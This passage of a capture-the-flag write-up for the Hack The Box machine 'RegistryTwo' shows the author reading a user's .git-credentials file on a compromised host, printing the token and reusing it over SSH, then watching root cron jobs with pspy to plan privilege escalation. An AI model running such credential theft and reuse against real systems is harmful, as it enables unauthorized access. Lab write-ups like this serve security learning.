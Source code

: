 We can now list files on the host!
```
ls /
/
/initrd.img
/opt
/sbin
/snap
/root
/var
```

Inside the home folder of the developer user I found some git creds
```
ls /home/developer
/home
/home/developer/.cache
/home/developer/.bash_logout
/home/developer/.bashrc
/home/developer/.bash_history
/home/developer/.git-credentials
/home/developer/user.txt
/home/developer/.gnupg
/home/developer/.profile
/home/developer/.vimrc
cat /home/developer/.git-credentials
https://irogir:qybWiMTRg0sIHz4beSTUzrVIl7t3YsCj9@github.com
```

Trying `irogir:qybWiMTRg0sIHz4beSTUzrVIl7t3YsCj9` via SSH got me in as `developer`!
```
┌──(kali㉿kali)-[~/htb/registryTwo/warDIR/compile]           
└─$ ssh developer@webhosting.htb                                
The authenticity of host 'webhosting.htb (10.10.11.223)' can't be established. 
ED25519 key fingerprint is SHA256:MAsPYw/jBZT2Jey1YCF7JJ36wOqpd37giePk2KngbpM. 
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'webhosting.htb' (ED25519) to the list of known hosts.
[snip]
28 additional security updates can be applied with ESM Infra.
Learn more about enabling ESM Infra service for Ubuntu 18.04 at
https://ubuntu.com/18-04


Last login: Mon Jul 17 12:11:10 2023 from 10.10.14.23
developer@registry:~$ 
```
## Priv Esc
I started out my priv esc by looking at the running processes of the machine using `pspy`. The following section below stood out to me. `registry.jar` is the RMI service running on the machine that we exploited. `quarantine.jar` is a new one.
```
2024/02/11 00:19:53 CMD: UID=999   PID=3077   | /usr/lib/jvm/java-11-openjdk-amd64/bin/java -jar /opt/registry.jar
[snip]
2024/02/11 00:22:01 CMD: UID=0     PID=3556   | /bin/sh -c for i in {1..6}; do /bin/bash /root/tomcat-app/reset.sh & sleep 10; done 
2024/02/11 00:22:01 CMD: UID=0     PID=3555   | /bin/sh -c /bin/bash /root/check-vhosts.sh 
2024/02/11 00:22:01 CMD: UID=0     PID=3554   | /usr/sbin/CRON -f 
2024/02/11 00:22:01 CMD: UID=0     PID=3560   | /bin/bash /root/check-vhosts.sh 
2024/02/11 00:22:01 CMD: UID=0     PID=3563   | /bin/bash /root/tomcat-app/reset.sh 
2024/02/11 00:23:01 CMD: UID=0     PID=3631   | /usr/local/sbin/vhosts-manage -m quarantine                                                      
2024/02/11 00:22:01 CMD: UID=0     PID=3565   | /usr/bin/java -jar /usr/share/vhost-manage/includes/quarantine.jar 
```